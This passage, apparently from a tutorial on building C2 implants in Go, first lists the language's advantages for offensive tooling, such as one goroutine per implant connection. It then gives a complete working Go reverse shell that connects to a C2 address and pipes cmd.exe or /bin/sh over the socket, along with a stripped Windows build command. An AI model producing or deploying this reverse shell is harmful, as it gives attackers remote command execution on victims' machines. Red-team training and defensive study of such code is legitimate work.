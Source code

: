 ```
│   • One goroutine per implant connection                     │
│   • Scales to thousands of implants easily                   │
│   • No complex thread management                             │
│                                                              │
│  6. FAST COMPILATION                                         │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━    │
│  What: Compiles large projects in seconds                    │
│  Why It Matters:                                             │
│   • Rapid iteration during development                       │
│   • Quick recompilation for testing                          │
│   • Faster than C++ (no lengthy builds)                      │
│                                                              │
│  Development Cycle:                                          │
│   Edit code → Compile (2s) → Test → Repeat                   │
│   vs C++: Edit code → Compile (2min) → Test → Repeat         │
│                                                              │
│  7. CLEAN SYNTAX                                             │
│  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━    │
│  What: Simple, readable language design                      │
│  Why It Matters:                                             │
│   • Easier to learn than C/C++                               │
│   • Less cryptic than Rust                                   │
│   • Maintainable code (important for teams)                  │
│   • Fewer language gotchas                                   │
│                                                              │
└──────────────────────────────────────────────────────────────┘
```


### **Real-World Impact: Go vs Traditional Languages**

Let's see these advantages in practice with concrete examples:

**Scenario 1: Building a Simple Reverse Shell**

```go
// Go Version - Complete working reverse shell in ~30 lines
package main

import (
    "net"
    "os/exec"
    "runtime"
)

func main() {
    // Connect to C2 server
    conn, _ := net.Dial("tcp", "192.168.1.100:443")
    
    // Determine shell based on OS
    var cmd *exec.Cmd
    if runtime.GOOS == "windows" {
        cmd = exec.Command("cmd.exe")
    } else {
        cmd = exec.Command("/bin/sh")
    }
    
    // Pipe shell I/O through connection
    cmd.Stdin = conn
    cmd.Stdout = conn
    cmd.Stderr = conn
    cmd.Run()
}

// Compile for Windows: GOOS=windows go build -ldflags="-s -w" shell.go
```